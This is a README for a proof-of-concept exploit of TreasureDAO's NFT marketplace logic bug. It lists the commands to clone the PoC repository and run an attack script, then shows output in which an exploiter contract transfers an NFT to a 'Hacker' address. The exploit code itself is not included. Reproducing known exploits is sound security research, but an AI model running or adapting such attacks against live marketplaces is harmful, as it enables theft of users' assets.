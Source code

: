 # TreasureDAO's Logic Issue PoC

## How to run

Set up the environment variable for $ALCHEMY_KEY

```
$  git clone https://github.com/SupremacyCA/Web3.0-Rekt
$  export $ALCHEMY_KEY = xxxxx
$  cd ./TreasureDAO
$  yarn

then 

$  sh run.sh
```

```
$  sh run.sh
yarn run v1.22.18
warning package.json: No license field
$ /Users/jehovah/Projects/PoCs/Web3.0-Rekt/NFT/TreasureDAO/node_modules/.bin/hardhat run scripts/attack.js
Compiled 4 Solidity files successfully
[#] 🧛 Exploiter deployed to: 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707
[#] 🧛 The holder of the NFT before the attack was:  0xd3FeeDc8E702A9F191737c0482b685b74Be48CFa
[#] 🧛 The holder of the NFT after the attack was:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 [#] Hacker
✨  Done in 37.25s.
```

---
